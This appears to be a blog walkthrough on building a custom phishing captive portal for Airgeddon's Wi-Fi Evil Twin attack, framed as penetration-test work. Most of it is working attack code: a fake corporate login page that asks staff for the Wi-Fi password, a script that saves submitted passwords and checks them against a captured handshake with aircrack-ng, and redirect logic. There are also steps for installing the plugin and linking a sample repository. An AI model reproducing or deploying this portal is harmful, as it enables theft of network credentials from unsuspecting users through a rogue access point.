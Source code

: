 ```yaml
---
title: "Customize your Captive Portal in Airgeddon's Evil Twin Attack"
excerpt: "A summarized walkthrough to customize the captive portal in Wi-Fi Evil Twin attacks."
categories:
    - Penetration-Test
tags:
    - Penetration-Test
toc: true
show_date: true
classes: wide
---
```


# Introduction
During a Wi-Fi penetration test recently, I tried to explore further about Evil Twin attacks, which is one of the client-side attacks. To whom may not know much about this attack, Evil Twin attacks involve adversaries who attempt to mimic a target Wi-Fi access point with a rogue access point and to trick users to connect the fake one.

# Custom Portal Plugin in Airgeddon
## Installation

Download the script `customportals.sh` on [https://github.com/KeyofBlueS/airgeddon-plugins](https://github.com/KeyofBlueS/airgeddon-plugins) and put it in `/usr/share/airgeddon/plugins`. Also, create a folder called `custom_portals` which will store all your customized captive portal template.

```sh
┌──(root㉿kali)-[/usr/share/airgeddon/plugins]
└─# ls -al
total 96
drwxr-xr-x 3 root root  4096 Sep  5 23:45 .
drwxr-xr-x 4 root root  4096 Sep  5 21:35 ..
drwxr-xr-x 2 root root  4096 Sep  5 23:45 custom_portals
-rw-r--r-- 1 root root 38008 Sep  5 23:38 customportals.sh
-rw-r--r-- 1 root root 34298 Aug  1 19:07 missing_dependencies.sh
-rw-r--r-- 1 root root  6401 Aug  1 19:07 plugin_template.sh
```

# Working on the Template
## index.htm
`index.htm` is the captive portal page that tricks users to provide information, such as Wi-Fi password or even their active directory credentials. In the following example, we attempt to tell the staff to provide the corporate Wi-Fi password in a scenario of WPA-PSK SSIDs.

```sh
#!/usr/bin/env bash
echo '<!DOCTYPE html>'
echo '<html>'
echo -e '	<head>'
echo -e '		<meta name="viewport" content="width=device-width"/>'
echo -e '		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>'
echo -e '		<title>"${et_misc_texts[${captive_portal_language},15]}"</title>'
echo -e '		<link rel="stylesheet" type="text/css" href="portal.css"/>'
echo -e '		<script type="text/javascript" src="portal.js"></script>'
echo -e '	</head>'
echo -e '	<div class="content">'
echo -e '		<form method="post" id="loginform" name="loginform" action="check.htm">'
echo -e '			<img src="./logo.png" alt="Logo" class="logo"/>'
echo -e '			<h1>Wi-Fi Access</h1>'
echo -e '			<p class="description">Please enter the Wi-Fi password to gain access to the corporate Wi-Fi network.</p>'
echo -e '			<label><input id="password" maxlength="63" name="password" size="20" type="password" placeholder="Password" class="input-field"/></label>'
echo -e '			<input type="submit" value="Connect" class="button"/>'
echo -e '		</form>'
echo -e '		<p class="warning">Only authorized persons are allowed to access the corporate network of ABC Company.</p>'
echo -e '	</div>'
exit 0
```

You may also notice that the form action will be taken in `check.htm` where I will explain further in the next section.

## check.htm

`check.htm` is to proceed the form submission by users in `index.htm`. The script would firstly extract the information from the POST HTTP data. In this case, the password is retrieved.

```sh
POST_DATA=$(cat /dev/stdin)
if [[ "${REQUEST_METHOD}" = "POST" ]] && [[ ${CONTENT_LENGTH} -gt 0 ]]; then
	POST_DATA=${POST_DATA#*=}
	password=${POST_DATA/+/ }
	password=$(printf '%b' "${password//%/\\x}")
fi
```

Once the password is retrieved, there are a couple of conditional statements following. The first one is to validate the length of the password provided by the user. The length should be at least 8 characters and less than 64 characters. If validated, the password will be temporarily saved in `${tmpdir}${webdir}${currentpassfile}`, which should typically be `/tmp/ag1/www/`. The password will be used to crack the hash in the 4-way handshake file captured by airodump-ng and Airgeddon.

```sh
if [[ ${#password} -ge 8 ]] && [[ ${#password} -le 63 ]]; then
	rm -rf "${tmpdir}${webdir}${currentpassfile}" > /dev/null 2>&1
	echo "${password}" >\
	"${tmpdir}${webdir}${currentpassfile}"
	aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}" | grep "KEY FOUND!" > /dev/null
```

Then, check whether `KEY FOUND` is in the output of `aircrack-ng` to determine the attack is successful or not.

```sh
if [ "$?" = "0" ]; then
	touch "${tmpdir}${webdir}${et_successfile}" > /dev/null 2>&1
	echo '<h1 class="success">Connection Success</h1>The password is correct, the connection will be re-established in a few moments'
	et_successful=1
else
	echo "${password}" >>\
	"${tmpdir}${webdir}${attemptsfile}"
	echo '<h1 class="error">Connection Error</h1>The password is incorrect, redirecting to the main screen'
	et_successful=0
fi
```

## portal.css

You could customize the CSS content here.

## portal.js

In `check.htm`, if the password is not correct, the user will be redirected to the captive portal page in a few seconds.

```sh
if [ ${et_successful} -eq 1 ]; then
    exit 0
else
    echo '<script type="text/javascript">'
    echo -e '\tsetTimeout("redirect()", 3500);'
    echo '</script>'
    exit 1
fi
```

The JavaScript function `redirect()` is called in `portal.js` to redirect to `index.htm`.

```javascript
function redirect() {
    document.location = "index.htm";
}
```

Meanwhile, some response corresponding to the form could be included here, such as password length validation.

```javascript
(function() {
    var onLoad = function() {
        var formElement = document.getElementById("loginform");
        if (formElement != null) {
            var validateForm = function(event) {
                event.preventDefault();
                var password = document.getElementById("password").value;
                if (password === "") {
                    alert("Please enter the Wi-Fi password.");
                } else if (password.length < 8) {
                    alert("The password must be at least 8 characters.");
                } else {
                    formElement.submit();
                }
            };
            formElement.addEventListener("submit", validateForm);
        }
    };

    document.readyState != 'loading' ? onLoad() : document.addEventListener('DOMContentLoaded', onLoad);
})();
```

# The Demo Captive Portal

Put the template in a sub-folder of `/usr/share/airgeddon/plugins/custom_portals/`.

```sh
┌──(root㉿kali)-[/usr/…/airgeddon/plugins/custom_portals/Demo]
└─# ls -al
total 48
drwxr-xr-x 2 root root  4096 Sep  6 02:11 .
drwxr-xr-x 3 root root  4096 Sep  5 23:46 ..
-rw-r--r-- 1 root root  2036 Sep  6 02:10 check.htm
-rw-r--r-- 1 root root  1170 Sep  6 02:10 index.htm
-rwxr-x--- 1 root root 24228 Sep  6 02:11 logo.png
-rw-r--r-- 1 root root  1556 Sep  6 02:10 portal.css
-rw-r--r-- 1 root root   889 Sep  6 02:11 portal.js
```

After the handshake capture file with deauthentication has been obtained, a rogue AP will be established with the captive portal.

![](/assets/images/2025-09-06/2025-09-06-02.png)


![](/assets/images/2025-09-06/2025-09-06-03.png)

# Captive Portal Sample

You may refer to my sample on [https://github.com/patrickt2017/Airgeddon-Evil-Twin-Captive-Portal-Demo](https://github.com/patrickt2017/Airgeddon-Evil-Twin-Captive-Portal-Demo) and develop your own template further!

# Resources

https://zimperium.com/glossary/evil-twin-attacks